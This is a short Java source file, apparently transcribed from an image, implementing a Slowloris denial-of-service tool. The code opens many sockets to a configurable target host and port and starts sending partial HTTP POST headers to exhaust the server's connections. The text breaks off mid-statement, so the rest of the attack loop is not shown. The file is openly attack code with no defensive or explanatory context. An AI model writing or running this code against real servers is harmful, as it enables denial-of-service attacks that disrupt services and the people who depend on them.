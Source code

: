 import java.io.PrintWriter;
import java.net.Socket;
import java.util.ArrayList;
import java.util.List;

public class Slowloris {
    private String targetHost;
    private int targetPort;
    private int connectionCount;
    private long headerIntervalMillis;

    public Slowloris(String targetHost, int targetPort, int connectionCount, long headerIntervalMillis) {
        this.targetHost = targetHost;
        this.targetPort = targetPort;
        this.connectionCount = connectionCount;
        this.headerIntervalMillis = headerIntervalMillis;
    }

    public void attack() {
        List<Socket> sockets = new ArrayList<>();
        try {
            for (int i = 0; i < connectionCount; i++) {
                try {
                    Socket socket = new Socket(targetHost, targetPort);
                    PrintWriter writer = new PrintWriter(socket.getOutputStream());
                    
                    // Send initial part of the request
                    writer.print("POST / HTTP/1.1\r\n");
                    writer.print("Host: " + targetHost + "\r\n");
                    writer.print("
